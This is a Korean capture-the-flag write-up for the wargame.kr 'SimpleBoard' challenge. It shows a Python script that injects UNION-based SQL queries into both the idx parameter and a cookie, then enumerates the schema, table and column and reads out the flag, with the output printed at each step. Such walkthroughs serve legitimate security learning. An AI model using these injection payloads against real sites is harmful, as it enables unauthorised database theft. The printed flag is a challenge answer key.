


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**


# **Write-Up**

그냥 게시판같은 페이지이다.


소스 중 Board class의 read함수를 보면 idx변수에 대해 해당하는 게시글을 읽는다.


idx변수는 GET method를 통해 전달됨을 알 수 있다.


read함수는 sql query전 read_chk라는 함수를 호출하는 데, 쿠키에서 /idx를 찾는다.



쿠키에서 /idx가 없다면 update문으로 향한다.



즉, read함수에서 select문에 대해서 injection을 수행하기위해 union 쿼리를 할 때, update문으로 들어가면 query error가 나온다.


쿠키를 조작하기 위해 python을 사용한다. 먼저 SQLi가 통하는 지 본다.

```python
import urllib
import urllib.request

# stage 1 query
query   = '0 union select 1,2,3,4--'
url     = ('http://wargame.kr:8080/SimpleBoard/read.php?idx='+query).replace(" ", "%20")
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/json; charset=utf-8', 'Cookie': 'view=%2F'+query}
request = urllib.request.Request(url, headers = headers)

try:
    response= urllib.request.urlopen(request)
    print(response.info())
    print(response.read().decode()) # html code
except urllib.error.HTTPError as e:
    print(e.code)                   # 404
    print(e.read())                 # 404 html code
except urllib.error.URLError as e:
    print(e.reason)                 # url에 대한 ip를 찾을 수 없음

[Output]
... 생략 ...
<thead>
        <tr><td>NUM</td><td>TITLE</td><td>HIT</td></tr>
        <tr><td>1</td><td>2</td><td>3</td></tr>
</thead>
<tbody>
        <td colspan=3>4</td>
</tbody>
... 생략 ...
```

SQLi가 통하니 DB명을 알아 낸다.

```python
query   = '0 union select 1,2,3,schema_name from Information_schema.schemata--'

[Output]
<td colspan=3>SimpleBoard</td>
```

Table 명을 알아낸다.

```python
query   = '0 union select 1,2,3,table_name from information_schema.tables--'

[Output]
<td colspan=3>README</td>
```

Column 명을 알아낸다.

```python
query   = '0 union select 1,2,3,column_name from information_schema.columns--'

[Output]
<td colspan=3>flag</td>
```

flag를 알아낸다.

```python
query   = '0 union select 1,2,3,flag from README--'

[Output]
<td colspan=3>272c3871611e03c2b35496027c9142bf1dfd380e</td>
```

# **FLAG**

**272c3871611e03c2b35496027c9142bf1dfd380e**